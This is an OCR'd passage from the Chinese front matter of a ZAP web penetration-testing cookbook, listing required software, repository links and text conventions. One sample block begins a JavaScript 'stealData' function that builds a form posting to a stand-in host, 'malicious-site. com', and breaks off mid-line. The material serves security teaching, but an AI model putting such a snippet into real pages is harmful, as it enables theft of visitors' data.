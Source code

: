| **本书中涵盖的软件/硬件` | `操作系统要求** |
| --- | --- |
| Java | Windows、macOS 或 Linux |
| Docker Desktop/Docker Compose | Windows、macOS 或 Linux |
| OWASP Juice-Shop | Windows、macOS、Linux 或 Docker |
| Mutillidae II | Windows、macOS 或 Linux |
| Jenkins | Windows、macOS、Linux 或 Docker |

**如果你使用的是本书的数字版，我们建议你自己输入代码，或者从本书的 GitHub 仓库获取代码（下一节有链接）。这样做有助于避免与复制粘贴代码相关的潜在错误。**

*此外，使用 ZAP，熟能生巧。ZAP 是一款旨在帮助组织识别和修复其 Web 应用程序漏洞的工具，在 Web 世界中，开发人员设计、构建和实现的各种方法和组合是无穷无尽的。通过实践，了解 Web 应用程序是如何构建的，只会让你成为一个更强大的 Web 应用程序渗透测试员* *使用 ZAP*。

# 下载示例代码文件

你可以从 GitHub 下载本书的示例代码文件，地址是：[`github.com/PacktPublishing/Zed-Attack-Proxy-Cookbook`](https://github.com/PacktPublishing/Zed-Attack-Proxy-Cookbook)。如果代码有更新，将会在 GitHub 仓库中进行更新。

我们还提供了其他来自我们丰富目录的代码捆绑包，包含书籍和视频，地址是：[`github.com/PacktPublishing/`](https://github.com/PacktPublishing/)。快来看看吧！

# 下载彩色图像

我们还提供了一份 PDF 文件，其中包含本书中使用的截图和图表的彩色图像。你可以在这里下载：[`packt.link/oBhpt`](https://packt.link/oBhpt)。

# 使用的约定

本书中使用了若干文本约定。

**文本中的代码**：表示文本中的代码字词、数据库表名、文件夹名称、文件名、文件扩展名、路径名、虚拟网址、用户输入和 Twitter 账户名。以下是一个示例：“将下载的 `WebStorm-10*.dmg` 磁盘映像文件挂载为系统中的另一个磁盘。”

一段代码的设置如下：

```
 pipeline {
   agent any
   parameters {
          choice(name: "ZAP_SCAN", choices: ["zap-baseline. py", "zap-full-scan.py"], description: "Parameter to choose type of ZAP scan")
string(name: "ENTER_
```

当我们希望引起你对代码块中特定部分的注意时，相关的行或项目会以粗体显示：

```
 <script>
    function stealData() {
       var form = document.createElement("form");
       form.setAttribute("method", "post");
       form.setAttribute("action", "http://malicious-site. com");
```
